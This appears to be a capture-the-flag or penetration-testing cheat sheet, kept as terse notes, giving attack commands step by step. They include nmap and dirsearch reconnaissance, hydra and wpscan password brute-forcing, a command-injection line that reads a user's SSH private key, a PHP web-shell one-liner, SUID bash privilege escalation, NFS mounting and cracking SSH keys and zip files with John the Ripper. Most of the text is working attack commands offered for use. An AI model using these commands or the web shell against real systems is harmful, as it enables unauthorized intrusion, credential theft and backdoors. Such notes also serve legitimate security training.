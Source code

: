 #Reconnaissance

sudo nmap -sC -sV -v -p- 10.10.10.10 –min-rate 10000

dirsearch -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u 10.10.10.10

#Getting Credentials

hydra -L users.txt -u -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh -s 2222 -V

mysql -h 10.10.70.250 -u root -p

grep -r 'looking_for_this' /in/this/directory

wpscan -U username --url http://website.com/wordpress -P /usr/share/wordlists/rockyou.txt

;cat /home/user/.ssh/id_rsa to get the SSH key

ftp 10.10.10.10 

touch id.rsa 

ssh -i id.rsa user@10.10.10.10

#Getting Remote Command Execution

<?php echo passthru($_GET['cmd']); ?>

#Privledge Escalation

sudo -l
chmod +s /bin/bash 
cp /bin/bash /home/user/elevated-shell; chmod +s /home/user/elevated-shell


below to find SUID binaries
find / -perm -4000 2>/dev/null 

https://www.revshells.com/

PHP will only execute on a non-PHP file (ie .jpg) if the .jpg includes a PHP includes

website.com/index.php?pg=/uploads/image.lol?cmd=ls

Could also use a straight PHP reverse shell payload

#Using John The Ripper

To crack a password-protected zip file, first convert it into a hash that John can read
zip2john file-to-crack.zip > hashed.john
And then call John on it
john -w=/usr/share/wordlists/rockyou.txt hashed.john

To crack a SSH key
ssh2john encrypted-id.rsa > id.rsa.john
john -w=/usr/share/wordlists/rockyou.txt id.rsa.john

#Other
bash -i to make the improvised root shell look nice

#abusing NFS
sudo showmount -e 10.10.10.10
mkdir mnt
sudo mount -t nfs 10.10.10.10:/ ./mnt -o nolock

